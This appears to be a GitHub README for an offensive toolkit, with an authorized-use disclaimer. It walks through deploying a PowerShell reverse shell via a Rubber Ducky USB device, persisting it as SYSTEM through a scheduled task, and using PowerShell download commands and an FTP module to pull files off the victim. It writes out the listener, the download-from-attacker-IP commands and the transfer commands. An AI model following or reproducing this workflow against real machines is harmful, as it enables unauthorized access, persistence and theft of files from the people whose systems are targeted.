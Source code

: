 ⚠️ Disclaimer
This project is created strictly for educational purposes, penetration testing, and red team research in authorized environments only.

Any use of this code outside of a controlled, lawful environment — such as unauthorized access, system exploitation, or malicious deployment — is strictly prohibited and may be illegal.

The author(s) of this project do not endorse or support any illegal activity and assume no responsibility for misuse or damage caused by the use of this tool.

Always obtain explicit written permission before testing any system or network that you do not own.


---

#  Project Execution Flow
0. **Clone the GitHub Repo**

This setup consists of two main modules:

1. **Reverse Shell Module** – for gaining initial access and persistence.
2. **File Transfer Module** – for uploading files from the victim system to your own server via FTP.

---

##  Reverse Shell Module

> This module establishes a reverse shell from the victim machine back to the attacker system and ensures it persists across reboots and unlocks.

###  Prerequisite

* Start a Netcat listener on your attacker machine:

```bash
nc -nvlp 1111
```

This sets up a listener on port `1111` to receive the incoming reverse shell connection.

---

### 🔹 Step-by-Step

#### **1. Deploy `L.ps1` using Rubber Ducky**

* Copy the PowerShell reverse shell script `L.ps1` to the **Rubber Ducky** (CIRCUITPY drive).
* Flash the Rubber Ducky with the provided `payload.dd` Ducky Script.
* Plug the Ducky into the target machine. It will:

  * Copy `L.ps1` to `C:\Windows\System32\`
  * Execute it silently using PowerShell
* This establishes a reverse shell connection to your Netcat listener.

---

#### **2. Establish Persistence (Optional but Recommended)**

* On the victim system (via the reverse shell), run the **single-line persistence command** found in the `Schedule for nt authority` file.
* This command sets up a **scheduled task** that:

  * Runs `L.ps1` on system startup and unlock.
  * Uses **NT AUTHORITY\SYSTEM** privileges.

Once done, you will have a **persistent reverse shell** as SYSTEM — even after reboots or user unlocks.

---

##  File Transfer Module

> This module allows you to transfer files from and to the victim.

###  Prerequisite

* Start a local HTTP server on the attacker machine `File_Transfer`(ClonedRepo) folder:

```bash
python3 -m http.server 8000
```

---

### 🔹 Step-by-Step

#### **1. Download `put.ps1 and get.ps1` to Victim**

From the victim machine (via reverse shell), download the `put.ps1 and get.ps1` script using:

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/put.ps1" -OutFile "C:\Windows\System32\Transfer.ps1"
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/get.ps1" -OutFile "C:\Windows\System32\Transfer.ps1"
```

Replace `<attacker-ip>` with your actual IP address.

---

#### **2. Configure FTP Server**

* Host an FTP server on your machine using tools like `vsftpd`.
* Ensure:

  * The FTP server is running on the port defined in the script (default: `21`).
  * A directory named `uploads` should exist on the FTP server.

---

#### **3. Set Variables in for Transfer**

Before executing the script, set the following variables:

```powershell
$IP="192.168.1.16:8000"
$ftpserver = "192.168.1.10"
$ftpport = 21
$ftpusername = "username" 
$ftppassword = "password"

```

**Note: Now that everything is set you need to run put.ps1 and get.ps1 on the reverse shell (here on in future after you close this shell and open a new one there is no need to run the get.ps1 and put.ps1 again.)**

---

#### **4. Transfer the files**

The commad to download the file from the victim is as follows:

```powershell
get "File_Name"
```

This will upload the specified file(s) to your FTP server’s `/uploads` directory.

---

The commad to put the file to the victim is as follows:

```powershell
put "File_Name"
```

This will upload the specified file(s) to the victim directory.

**Note: Make sure you are running the python http server and that server directory contains the file you want to put on the victim.**

---